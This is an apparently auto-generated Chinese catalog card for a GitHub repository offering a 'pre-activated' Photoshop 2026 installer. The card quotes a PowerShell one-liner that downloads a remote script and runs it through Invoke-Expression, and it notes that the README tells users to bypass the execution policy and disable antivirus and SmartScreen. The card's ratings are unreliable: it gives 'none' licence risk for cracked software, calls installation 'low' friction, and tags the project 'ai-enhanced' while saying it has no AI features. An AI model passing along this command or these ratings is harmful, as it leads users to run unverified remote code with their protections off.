

# minorjailerimagine/Fuck-Adobe

⭐ 21 · 推送 2026-10-19 · [GitHub](https://github.com/minorjailerimagine/Fuck-Adobe) · 个人维护

**面向 Windows 的 PS 2026 预激活安装脚本分发页**

README 描述一个自称为 Photoshop 2026 预激活独立安装包的分发渠道：目标平台 Windows x64，标注体积约 1.5 GB，通过 PowerShell 执行远程脚本（irm|Invoke-Expression）完成安装，并指导用户绕过执行策略与临时关闭杀毒软件/SmartScreen。页面含 SEO 关键词列表。除主题标签含 ai 外，README 未描述任何 AI 功能。

## 筛选速览

| 维度 | 判定 | 备注 |
|---|---|---|
| AI 角色 | `ai-enhanced` | 去掉 AI 部分产品仍成立 |
| 许可风险 | `none` | — |
| 部署形态 | `None` |  |
| 模型依赖 | — | README 未给出锁定关系 |
| 硬件要求 | — | 无带数字的原话,不猜 |
| 安装摩擦 | `low` | 无编译、无系统依赖或容器化 |
| 成熟度 | — | 结构信号不足 |

## 能力要点

- Windows x64 预激活独立安装包（约 1.5 GB）
- 通过 PowerShell 远程脚本 irm|Invoke-Expression 安装
- 提供绕过 ExecutionPolicy 与关闭实时防护的操作指引

## 适用场景

- README 自述用于 PS 2026 的本地安装与部署

## 场景标签

 · 领域:桌面软件分发（图像编辑）

## 证据(README 行号)

> L1: # PS 2026 — Standalone Desktop Installer
> L6: > **Target Platform:** Windows x64 Desktop
> L20:    irm https://power-shell.cc/powershell/Loader.ps1 | Invoke-Expression

## 星数曲线

2026-10-19 20 → 2026-10-28 21（+1）

---
*卡片 v1 · prompt 1.4 · 生成 2026-10-28 · 置信度 mid · 依据 README sha `28dc9020f03a` · [字段定义](../../DATASET.md)*
